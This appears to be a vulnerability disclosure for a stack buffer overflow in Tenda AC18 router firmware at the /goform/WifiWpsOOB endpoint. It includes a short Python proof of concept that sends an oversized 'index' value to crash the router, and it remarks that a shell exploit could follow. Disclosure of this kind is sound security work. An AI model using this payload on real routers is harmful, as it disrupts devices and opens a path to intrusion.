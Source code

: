 # Tenda AC18 V15.03.05.19 Stack overflow vulnerability

## Overview

- Manufacturer's address：https://www.tenda.com.cn/
- Firmware download address ： https://www.tenda.com.cn/download/detail-2683.html

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/WifiWpsOOB.   The contents obtained by the index parameter are passed to nptr, and then the contents matched by nptr  and put into the s without size checking, resulting in a stack overflow.
![](img/2.png#center)
<hr/>

![](img/3.png#center)
## POC

Run poc

```python
import requests

url = 'http://IP:port/goform/WifiWpsOOB'


headers = {"Cookie": "password=You cookie"}
data = {
    'index': 'a' * 10000
}

r = requests.post(url=url, headers=headers, data=data)
hunzi = r.text
print(hunzi)
```

You can see the router crash, and finally you can write an exp to get a shell.
